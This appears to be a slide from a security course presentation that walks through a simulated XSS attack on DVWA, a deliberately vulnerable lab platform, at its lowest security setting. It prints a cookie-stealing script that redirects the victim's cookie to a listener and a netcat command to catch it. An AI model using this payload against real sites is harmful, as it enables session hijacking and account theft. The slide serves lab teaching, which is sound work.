

SIMULATION OF AN ATTACK ON DVWA.
3

DVWA is a web platform specifically used for performing hacker attacks. To execute an XSS attack, we will need a script (to be inserted in the XSS section) and a netcat command to monitor its correct operation on the desired port. The procedure will be performed with a defense system set to low.
The script we will use is as follows:
<script>window.location='http://127.0.0.1:8888/?cookie='+document.cookie</script>
While the netcat command will be: nc -l -p + "port to attack".
To open the DVWA page, a communicating victim machine (ping) with the attacking machine and its IP is required to access the page